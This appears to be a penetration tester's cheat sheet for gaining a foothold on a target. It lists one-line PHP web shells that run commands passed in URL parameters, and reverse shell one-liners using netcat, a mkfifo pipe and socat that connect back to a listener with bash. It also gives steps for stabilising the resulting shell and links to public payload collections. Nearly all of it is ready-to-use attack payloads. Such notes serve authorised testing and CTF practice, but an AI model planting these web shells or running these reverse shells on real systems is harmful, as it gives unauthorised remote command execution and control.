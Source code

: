 # foothold

## Web shells

- A simple PHP web shell.

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Socat

Listener

```shell
socat TCP-L:1234 FILE:`tty`,raw,echo=0 
```

Connect back to listener

```shell
socat TCP:me:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Netcat

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

or (depending on Python version available)

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

```shell
alias ls='ls --color=auto'
export TERM=xterm
```

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

